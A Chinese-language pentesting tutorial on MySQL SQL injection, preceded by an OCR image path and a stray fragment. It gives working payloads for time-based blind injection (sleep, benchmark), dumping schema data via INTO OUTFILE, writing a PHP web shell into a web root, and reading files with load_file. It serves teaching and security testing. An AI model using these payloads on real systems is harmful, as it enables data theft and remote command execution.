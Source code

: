 First name: COLLATIONS
Surname: 1
...
```



## 标准SQL注入攻击

在标准SQL注入中，您可以将结果直接显示为正常输出或MySQL错误的页面。通过使用已经提到的SQL Injection攻击和已经描述的MySQL功能，直接SQL注入可以很容易地在一个层次上完成，这主要取决于pentester所面对的MySQL版本。

一个好的攻击方法是通过强制函数/过程或服务器本身抛出错误来了解结果。在MySQL手册上可以找到由MySQL引发的错误列表，特别是本机函数。

### 带外SQL注入
带外注入可以通过使用“ into outfile”子句来完成。

### 盲注
对于盲目SQL注入，MySQL服务器本身提供了一组有用的功能。

- 字串长度：```LENGTH(str)```
- 从给定的字符串中提取一个子字符串：```SUBSTRING(string, offset, #chars_returned)```
#### 基于时间的盲注

```BENCHMARK(#ofcycles,action_to_be_performed)``` 。 当Boolean攻击无任何结果时，可尝试benchmark函数执行计时攻击。也可以使用```SLEEP()```函数作为替代方法（MySQL> 5.0.x）。

例如dvwa盲注处可键入```1' and sleep(5) and '1'='1```,会发现过了5秒后才响应。

```1' and benchmark(500000,md5(1)) and '1'='1```,执行500000次的md5(1).


例如：猜测当前数据库名首字母为 g ，如果是则执行benchmark；否则不执行。通过响应时间长短可以知道是否猜中。

`1170 union select if(substring(current,1,1) = char(119), benchamark(5000000,encode('msg','by 5 seconds')),null) from (select database() as current) as tbl;`

### 写入数据

如果连接数据库使用的用户有```FILE```权限，即写文件权限，且单引号不会被过滤，那么```inot outfile```这种字句就可能被用于导出查询结果到一个文件。SQL语句例如：```Select * from table into outfile '/tmp/file'```

例如使用下列语句写入敏感信息，然后将其写入可访问的文件，攻击者可以下载之 ：
`1170 union ALL select table_name,table_type,engine from information_schema.tables where table_schema='mysql' order by table_name DESC INTO OUTFILE '/www-available-path/123.txt';`

注意：由于无法绕过文件名周围的单引号，因此如果对单引号（例如转义）进行了一些清理，`\'`将无法使用“ into outfile”子句。

这种攻击可用作带外技术，以获取有关查询结果的信息或编写可在Web服务器目录中执行的文件。

例如：写入一个shell：`1 union select "<?php system($_REQUEST['cmd']); ?>" ,2,3,4 INTO OUTFILE '/var/www/html/temp/c.php' -- `

又例如：`1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code here%>';`

Results are stored in a file with rw-rw-rw privileges owned by MySQL user and group.

Where /var/www/root/test.jsp will contain:

```//field values// <%jsp code here%>```

#### 从文件中读

```load_file```是一个能读文件的mysql内置文件，在有文件系统权限时可以使用。如果连接用户有文件权限，他可能使用某个文件的内容，如果单引号被限制，那么可以使用之前讨论的方法进行绕过。
```load_file('filename')```
```